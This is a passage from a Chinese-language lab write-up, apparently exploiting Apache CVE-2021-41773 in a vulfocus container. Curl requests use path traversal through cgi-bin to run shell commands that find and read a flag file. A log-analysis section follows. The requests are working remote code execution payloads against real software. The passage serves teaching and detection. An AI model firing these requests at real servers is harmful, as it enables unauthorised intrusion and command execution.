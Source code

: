 ```bash
# 搜索系统中所有包含flag的文件
curl "http://10.37.133.3:42286/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh" -d "echo Content-Type: text/plain; echo; find / -name '*flag*' 2>/dev/null"
```

**搜索结果**:

```bash
/sys/devices/platform/serial8250/serial8250:0/serial8250:0.3/tty/ttyS3/flags
/sys/devices/platform/serial8250/serial8250:0/serial8250:0.1/tty/ttyS1/flags
/sys/devices/platform/serial8250/serial8250:0/serial8250:0.2/tty/ttyS2/flags
/sys/devices/platform/serial8250/serial8250:0/serial8250:0.0/tty/ttyS0/flags
/sys/devices/virtual/net/lo/flags
/sys/devices/virtual/net/eth0/flags
/sys/module/scsi_mod/parameters/default_dev_flags
/tmp/flag-{bmha8de6a45-2ae2-4615-97ff-1af1edd5afcf}
/proc/sys/net/ipv4/fib_notify_on_flag_change
/proc/sys/net/ipv6/fib_notify_on_flag_change
/proc/kpageflags
/usr/lib/x86_64-linux-gnu/perl/5.32.1/bits/ss_flags.ph
/usr/lib/x86_64-linux-gnu/perl/5.32.1/bits/waitflags.ph
```

**🎯 找到了！flag文件在 `/tmp/flag-{bmha8de6a45-2ae2-4615-97ff-1af1edd5afcf}`**

###### 3.4.2 Flag内容读取

```bash
# 读取flag文件内容
curl "http://10.37.133.3:42286/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh" -d "echo Content-Type: text/plain; echo; cat /tmp/flag-{bmha8de6a45-2ae2-4615-97ff-1af1edd5afcf}"
```

**Flag获取成功**: `flag-{bmha8de6a45-2ae2-4615-97ff-1af1edd5afcf}`

#### 4. 威胁检测

##### 4.1 Apache 访问日志分析

###### 4.1.1 定位容器和日志路径

```bash
# 查看运行中的 Apache 容器
docker ps | grep apache
```

```bash
┌──(kali㉿kali-attacker)-[~]
└─$ docker ps | grep apache

a2b4c3a1d377   vulfocus/apache-cve_2021_41773:latest      "/entry.sh"              22 minutes ago   Up 20 seconds           0.0.0.0:42286->80/tcp, :::42286->80/tcp                                                flamboyant_maxwell
```

```bash

# 进入容器查看日志
docker exec -it a2b4c3a1d377 /bin/bash

# Apache 访问日志通常位于以下路径
ls -la /var/log/apache2/
# 重点关注 access.log 和 error.log
```
